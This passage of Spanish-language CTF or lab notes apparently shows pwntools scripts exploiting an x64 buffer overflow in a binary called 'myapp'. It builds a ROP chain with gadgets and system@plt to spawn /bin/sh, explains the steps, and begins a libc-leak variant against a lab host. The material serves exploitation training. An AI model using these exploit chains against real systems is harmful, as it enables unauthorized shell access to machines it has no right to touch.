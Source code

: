 ```python
# â¯ objdump -D ./myapp | grep "test"
#   40100b:       48 85 c0                test   %rax,%rax
#   4010c2:       48 85 c0                test   %rax,%rax
#   401104:       48 85 c0                test   %rax,%rax
# 0000000000401152 <test>:
test = p64(0x401152)
#                             **************************************************************
#                             *                          FUNCTION                          *
#                             **************************************************************
#                             undefined test()
#             undefined         AL:1           <RETURN>
#                             test                                            XREF[3]:     Entry Point(*), 00402060, 
#                                                                                          00402108(*)  
#        00401152 55              PUSH       RBP
#        00401153 48 89 e5        MOV        RBP,RSP
#        00401156 48 89 e7        MOV        RDI,RSP # RDI => "/bin/sh\x00"
#        00401159 41 ff e5        JMP        R13 # => system($rdi)
p.sendline(junk + bin_sh + pop_r13 + system_plt + null + null + test)
p.interactive()
```

Todas las direcciones de memoria se han buscado con el comando `objdump -D ./myapp | grep "system"` o para la direccion de test con el
comando `objdump -D ./myapp | grep "test"`. Estos comandos se puenden usar porque le PIE esta desabilitado.

En este caso, que hace el script. El script nos permite finalmente ejecutar el applicativo con un flujo distincto para
ganar accesso al systema. El flujo es el siguiente.

1. Lanzamos el binario
1. Introducimos 112 A (120 del offset menos los 8 bytes del comando "/bin/sh\x00") => 7 caracteres + 1 nullByte.
1. Introducimos el commando `/bin/sh\x00`
1. Apuntamos a la direccion del gadget
1. Sobre escribimos el
    - r13 con la direccion de system
    - r14 como nullo
    - r15 como nullo
1. Introducimos la direccion de la funccion test


### Buffer Overflow x64 usando Memory leak {-}

```python
#!/usr/bin/python3

# Libc leaked

from pwn import *

context(terminal=['tmux', 'new-window'])
context(os='linux', arch='amd64')

p = remote("10.10.10.147", 1337)
# p = gdb.debug('./myapp', 'b *main')

junk = ("A"*120).encode()

# gef➤  ropper --search "pop rdi"
# 0x000000000040120b: pop rdi; ret; 

pop_rdi = p64(0x40120b)
```